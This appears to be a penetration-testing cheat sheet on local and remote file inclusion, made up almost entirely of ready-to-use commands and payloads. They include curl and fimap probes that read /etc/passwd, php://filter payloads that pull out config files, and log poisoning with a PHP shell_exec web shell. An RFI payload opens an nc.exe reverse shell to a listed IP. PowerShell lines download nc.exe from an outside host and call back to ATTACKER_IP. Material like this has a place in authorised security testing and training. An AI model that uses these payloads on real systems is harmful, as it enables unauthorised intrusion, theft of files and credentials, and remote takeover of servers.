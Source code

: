 https://github.com/danielmiessler/SecLists/tree/master/Usernames

#### LFI-RFI

```bash
#Fimap
fimap -u "http://$IP/example.php?test="

curl -s http://$IP/gallery.php?page=/etc/passwd

#Use in "page="

php://filter/convert.base64-encode/resource=/etc/passwd

http://$IP/maliciousfile.txt%00

php://filter/convert.base64-encode/resource=../config.php

php://filter/convert.base64-encode/resource=../../../../../boot.ini

# LFI Windows  :warning:
LANG=../../windows/system32/drivers/etc/hosts%00
LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig

# Contaminating log files
root@kali:~# nc -v $IP 80
$IP: inverse host lookup failed: Unknown host
(UNKNOWN) [$IP] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?>

# Contaminating log files
[root:~]# nc -v $IP 80
$IP: inverse host lookup failed: Unknown host
(UNKNOWN) [$IP] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?>

# RFI:
http://$IP/addguestbook.php?LANG=http://$IP:31/evil.txt%00
Content of evil.txt:
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>

# PHP Filter:
http://$IP/index.php?m=php://filter/convert.base64-encode/resource=config

# RFI over SMB (Windows)
cat php_cmd.php
    <?php echo shell_exec($_GET['cmd']);?>
  Start SMB Server in attacker machine and put evil script
  Access it via browser (2 request attack):
lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c Invoke-WebRequest -Uri "http://10.10.14.42/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"
lang=\\ATTACKER_IP\ica\php_cmd.php&cmd=powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe ATTACKER_IP 1234

```
> read this :
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion
